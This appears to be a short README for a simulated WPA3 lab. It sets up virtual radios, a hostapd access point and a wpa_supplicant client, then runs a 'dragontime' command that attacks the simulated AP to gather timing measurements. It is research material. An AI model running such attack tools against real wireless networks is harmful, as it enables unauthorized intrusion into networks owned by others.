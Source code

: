 How to run the wlan simulation:

Clone the relevant repositories from GitHub into "Projects" directory.

Make wpa_supplicant and hostapd as instructed.

Run:

```
sudo modprobe mac80211_hwsim radios=3

sudo systemctl stop NetworkManager.service

sudo macchanger --mac=00:11:00:00:00:00 wlan0
sudo macchanger --mac=00:22:00:00:00:00 wlan1
sudo macchanger --mac=00:33:00:00:00:00 wlan2

sudo ~/Projects/hostap-wpa3/hostapd/hostapd hostapd_wpa3.conf -dd -K
sudo ~/Projects/hostap-wpa3/wpa_supplicant/wpa_supplicant -D nl80211 -i wlan1 -c supp_wpa3.conf -dd -K
```

Now we have a simulated AP running on wlan0 with MAC 00:11:00:00:00:00, and a simulated client running on wlan1 with MAC
00:22:00:00:00:00.

To actually gather data, run:

```
sudo ~/Projects/dragondrain-and-time/src/dragontime -d wlan2 -a 00:11:00:00:00:00 -c 1 -g 22 -i 250 -t 750 -o measurements.txt
```

Which will attack through wlan2 the AP and gather the measurements.